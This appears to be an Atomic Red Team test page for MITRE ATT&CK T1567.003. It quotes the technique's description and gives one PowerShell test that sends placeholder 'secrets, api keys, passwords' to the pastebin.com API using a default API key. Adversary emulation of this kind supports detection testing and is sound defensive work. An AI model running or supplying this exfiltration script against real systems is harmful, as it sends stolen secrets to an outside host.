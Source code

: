 # T1567.003 - Exfiltration Over Web Service: Exfiltration to Text Storage Sites
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1567/003)
<blockquote>

Adversaries may exfiltrate data to text storage sites instead of their primary command and control channel. Text storage sites, such as <code>pastebin[.]com</code>, are commonly used by developers to share code and other information.  

Text storage sites are often used to host malicious code for C2 communication (e.g., [Stage Capabilities](https://attack.mitre.org/techniques/T1608)), but adversaries may also use these sites to exfiltrate collected data. Furthermore, paid features and encryption options may allow adversaries to conceal and store data more securely.(Citation: Pastebin EchoSec)

**Note:** This is distinct from [Exfiltration to Code Repository](https://attack.mitre.org/techniques/T1567/001), which highlight access to code repositories via APIs.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data with HTTP POST to text storage sites - pastebin.com (Windows)](#atomic-test-1---exfiltrate-data-with-http-post-to-text-storage-sites---pastebincom-windows)


<br/>

## Atomic Test #1 - Exfiltrate data with HTTP POST to text storage sites - pastebin.com (Windows)
This test uses HTTP POST to exfiltrate data to a remote text storage site. (pastebin)                             
See https://web.archive.org/web/20201107203304/https://www.echosec.net/blog/what-is-pastebin-and-why-do-hackers-love-it

**Supported Platforms:** Windows


**auto_generated_guid:** c2e8ab6e-431e-460a-a2aa-3bc6a32022e3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| api_key | Pastebin API key | string | 6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0|


#### Attack Commands: Run with `powershell`! 


```powershell
$apiKey = "#{api_key}"
$content = "secrets, api keys, passwords..."
$url = "https://pastebin.com/api/api_post.php"
$postData = @{
  api_dev_key   = $apiKey
  api_option    = "paste"
  api_paste_code = $content
}
$response = Invoke-RestMethod -Uri $url -Method Post -Body $postData
Write-Host "Your paste URL: $response"
```






<br/>
